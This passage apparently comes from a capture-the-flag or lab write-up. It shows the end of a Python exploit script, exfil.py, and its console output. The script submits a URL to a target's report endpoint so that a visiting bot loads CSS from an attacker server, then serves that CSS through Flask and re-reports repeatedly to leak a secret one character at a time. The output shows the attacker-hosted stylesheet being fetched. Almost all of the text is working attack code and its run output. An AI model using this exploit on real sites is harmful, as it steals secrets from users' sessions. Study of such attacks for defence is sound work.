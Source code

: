 ```python
                r = requests.post(S['target'] + S['report_path'],
                                  data={'url': url}, timeout=8)
                print("[*] re-report", r.status_code)
            except Exception as e:
                print("[!] re-report failed:", e)
    return ""


def report():
    url = f"{S['target']}/?theme={S['attacker']}/css/ocean"
    r = requests.post(S['target'] + S['report_path'],
                      data={'url': url}, timeout=8)
    print("[*] report", r.status_code)


if __name__ == "__main__":
    ap = argparse.ArgumentParser()
    ap.add_argument("--attacker")
    ap.add_argument("--target")
    ap.add_argument("--report-path")
    ap.add_argument("--charset")
    ap.add_argument("--start-prefix")
    ap.add_argument("--no-auto", action="store_true")
    ap.add_argument("--host", default="0.0.0.0")
    ap.add_argument("--port", type=int, default=80)
    a = ap.parse_args()

    if a.attacker:
        S['attacker'] = a.attacker.rstrip("/")
    if a.target:
        S['target'] = a.target.rstrip("/")
    if a.report_path:
        S['report_path'] = a.report_path
    if a.charset:
        S['charset'] = a.charset
    if a.start_prefix:
        S['prefix'] = a.start_prefix
    if a.no_auto:
        S['auto_revisit'] = False

    try:
        report()
    except Exception as e:
        print("[!] initial report failed:", e)
    print("[*] serve CSS at", S['attacker'] + "/css/ocean.css")
    app.run(host=a.host, port=a.port, debug=False)
```



```bash
sudo python exfil.py

[*] report 200
[*] serve CSS at https://ATTACKER_SERVER/css/ocean.css
 * Serving Flask app 'exfil'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:80
 * Running on http://192.168.16.128:80
Press CTRL+C to quit
127.0.0.1 - - [12/Aug/2025 09:29:26] "GET /css/ocean.css HTTP/1.1" 200 -
```